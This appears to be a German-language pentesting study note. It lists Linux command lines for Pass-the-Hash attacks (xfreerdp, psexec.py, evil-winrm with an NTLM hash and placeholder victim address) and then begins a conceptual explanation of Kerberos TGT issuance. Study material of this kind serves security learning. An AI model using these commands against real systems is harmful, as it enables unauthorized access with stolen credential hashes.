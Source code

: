 #### Pass-the-Hash in LINUX

Wenn du mit einer Linux Maschine angreifst, hast du bereits Tools an Board, mit denen du Pass-the-Hash ganz easy ausführen kannst:

- Connect to RDP using PtH:

>xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
- Connect via psexec using PtH:

>psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
**Note: Only the linux version of psexec support PtH.**

- Connect to WinRM using PtH:

>evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH

### Kerberos Authentication

Schauen wir uns mal die Kerbers Authentication an:
1. ![alt text](images/image6.png)

Folgede Dinge sendet der User an das Key Distributions Center (KDC) um ein TGT Ticket anzufragen:
    - Seinen Usernamen
    - Einen Zeitstempel. Dieser Zeitstempel ist mit einem Schlüssel verschlüsselt, der sich aus dem Password des Users ergibt (User Hash)

Der KDC erstellt ein Ticket Granting Ticket (TGT) und erlaubt dem User somit, Tickets für besimmte Services anzufragen, ohne sich bei diesen Services mit seinen Zugangsdaten anzumelden. Zusammen mit dem TGT kommt auch des **Session Key** mit dem nachfolgende Requests generieren kann.

**Achtung: Das TGT ist mit dem Password Hash des krbtgt Accounts verschlüsselt, womit der User keinen Zugriff auf den Inhalt des TGT erhält. Es ist sehr wichtig zu verstehen, dass das verschlüsselte TGT ebenfalls eine Kopie des Session Key enthält. Somit muss der KDC keinen Session Key speichern, da er diesen einfach aus dem TGT wiederherstellen kann**
